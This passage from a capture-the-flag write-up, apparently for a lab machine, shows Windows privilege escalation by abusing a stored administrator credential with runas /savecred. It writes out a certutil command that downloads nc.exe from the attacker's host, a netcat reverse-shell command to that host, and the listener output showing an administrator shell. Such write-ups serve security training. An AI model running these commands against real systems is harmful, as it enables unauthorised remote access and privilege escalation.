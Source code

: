 - Via stored credential in the Credential Manager (our way)
- Via credentials we have obtain somehow

Since runas command doesn’t show the output we will send a reverse shell using netcat. First we have to transfer **nc.exe** binary to the machine.

```bash
C:\Windows\Temp>certutil -urlcache -f http://10.10.14.17/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

Now is trivial to send the reverse shell.

```bash
C:\Windows\Temp>runas /env /noprofile /savecred /user:ACCESS\administrator "nc.exe 10.10.14.17 4444 -e cmd.exe"
```

We have admin access to the machine and we can read the flag.

```bash
┌──(kali㉿kali)-[~/machines/secnotes]
└─$ rlwrap nc -lvnp 4444      
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.98] 49159
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\Temp>whoami
whoami
access\administrator
```